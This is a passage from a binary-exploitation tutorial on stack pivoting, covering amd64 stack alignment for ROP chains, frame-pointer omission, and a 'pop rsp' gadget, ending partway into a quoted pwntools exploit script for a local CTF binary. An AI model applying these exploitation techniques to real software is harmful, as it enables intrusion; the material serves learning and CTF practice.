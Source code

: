 ```
> amd64 alignment tip: System V ABI requires 16-byte stack alignment at call sites. If your chain calls functions like `system`, add an alignment gadget (e.g., `ret`, or `sub rsp, 8 ; ret`) before the call to maintain alignment and avoid `movaps` crashes.

## EBP might not be used

As [[https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1|**explained in this post**]], if a binary is compiled with some optimizations or with frame-pointer omission, the **EBP/RBP never controls ESP/RSP**. Therefore, any exploit working by controlling EBP/RBP will fail because the prologue/epilogue doesn’t restore from the frame pointer.

- Not optimized / frame pointer used:

```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
```
- Optimized / frame pointer omitted:

```bash
push   %ebx         # save callee-saved register
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore
ret                 # return
```
```
On amd64 you’ll often see `pop rbp ; ret` instead of `leave ; ret`, but if the frame pointer is omitted entirely then there’s no `rbp`-based epilogue to pivot through.

## Other ways to control RSP

### `pop rsp` gadget

[[https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp|**In this page**]] you can find an example using this technique. For that challenge it was needed to call a function with 2 specific arguments, and there was a **`pop rsp` gadget** and there is a **leak from the stack**:

```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
```